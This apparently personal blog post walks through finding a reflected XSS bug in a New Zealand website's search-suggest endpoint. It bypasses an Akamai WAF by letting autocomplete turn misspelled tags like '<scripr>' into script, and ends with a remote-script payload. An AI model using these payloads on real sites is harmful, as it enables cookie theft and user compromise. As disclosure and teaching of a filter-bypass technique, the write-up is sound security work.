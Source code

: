 +++
title = "Bypassing a WAF With Autocomplete"
date = 2024-07-15T10:33:59+12:00
draft = false
description = "Hacking a farming website!"
+++

A few months ago, I was looking at a popular New Zealand website. I came across their search feature.
and found that when I interacted with the search box, it queried this endpoint to fetch the search results
<!--more-->

`<snip>/ViewSuggestSearch-Suggest&SearchTerm=tshirt`

```html
<div class="suggest-results-list search-spring">
<button type="button" class="close" title="Close"><span>×</span></button>
<div class="suggest-suggestion-list col-xs-6">
	<h3>Search Suggestion</h3>
	<ul>
		<li class="classic">
			<button type="button"
					data-search-result="tshirt"
					class="search-result">
				<span class="ish-searchTerm">tshirt</span>
			</button>
		</li>
	</ul>
</div>

(A bunch of products)...

```

The page would make these `HTTP GET` requests, and the endpoint would return a little HTML widget
that would then be embedded in the page. I tried injecting a HTML tag to test if this is vulnerable:

`/ViewSuggestSearch-Suggest&SearchTerm=<h1>HACKS?!</h1>`

```html
<div class="suggest-results-list search-spring">
<button type="button" class="close" title="Close"><span>×</span></button>
<div class="suggest-suggestion-list col-xs-6">
	<h3>Search Suggestion</h3>
	<ul>
		<li class="classic">
			<button type="button"
					data-search-result="<h1>hack?!</h1>"
					class="search-result">
			<h1>hack?!</h1>
			</button>
		</li>
	</ul>
</div>
```

Oops, that's not great—our input gets reflected without being sanitized! That means we can get
JavaScript execution, grab some cookies, and pwn people now… right? Let’s find out:

`/ViewSuggestSearch-Suggest&SearchTerm=<script>alert(document.domain)</script>`

![Website WAF Block screen](images/waf-block-screen.png)

Wow, that's a crazy coincidence! Isn’t it? Let’s look a little closer…

![WAF image link hover](images/waf-image-link.png)

Huh, okay, unfortunately, we have to work a bit harder. This company has paid attention to the
security checklist and installed a Web Application Firewall (WAF), namely Akamai's 'Kona Site
Defender'. You can read more about WAFs
[here](https://owasp.org/www-community/Web_Application_Firewall), but the idea is that if we can’t
stop all the vulnerabilities, we can at least make exploitation harder by blocking suspicious
requests.

Clearly this is a problem, how do we bypass it?

Looking back at our first injection attempt, we can notice something interesting: the word "HACKS"
got changed to "hack". This is likely due to an autocomplete feature, by the nature of it being a
search engine. This may prove useful in bypassing the WAF. Can we somehow craft a payload that slips
past the WAF, is then transformed by this autocomplete feature into something malicious,
and then reflected to the victim's browser? Well, we’ve already seen that it seems to disregard the
non-alphanumeric characters from its autocompleting (i.e., `<>/`). That’s good; we only have to
worry about the words. Let's try:

`/ViewSuggestSearch-Suggest&SearchTerm=<script>`

Blocked, ok thats expected,

What if we try “scripr”, a subtle misspelling of “script”? Will it autocomplete it?

`/ViewSuggestSearch-Suggest&SearchTerm=<scripr>`

```html
...
<li class="classic">
	<button type="button" 
			data-search-result="<script>" 
			class="search-result">
		<span class="ish-searchTerm"><script></span>
	</button>
</li>
...
```

Perfect! That looks good; the WAF doesn't block it. Let's build it up more. It turns out the
autocomplete doesn’t like the second word to be followed by a ">", so let's add a "/" which the
browser will ignore.

`/ViewSuggestSearch-Suggest&SearchTerm=<scripr></scripr/>`

```html
...
<li class="classic">
	<button type="button" 
			data-search-result="<script></script>" 
			class="search-result">
		<span class="ish-searchTerm"><script></script/></span>
	</button>
</li>
...
```

Sweet, it also seems that the WAF doesn’t like "alert(", so we'll use "alertt(" instead.

`/ViewSuggestSearch-Suggest&SearchTerm=<scripr>alertt(document.domain)</scripr/>`

![Alert Box](images/alert-box.png)

Yay! we did it :3, In terms of further exploitation, a payload such as
`<scripr/src="//<remote-ip>/"></scripr/>` seems to work and Note: It's much easier here with an ip
address as domain names will get autocompleted.

Overall this was a fun little bug to discover, and demonstrates how to utilize these types of
transformations to bypass WAF's and filters.
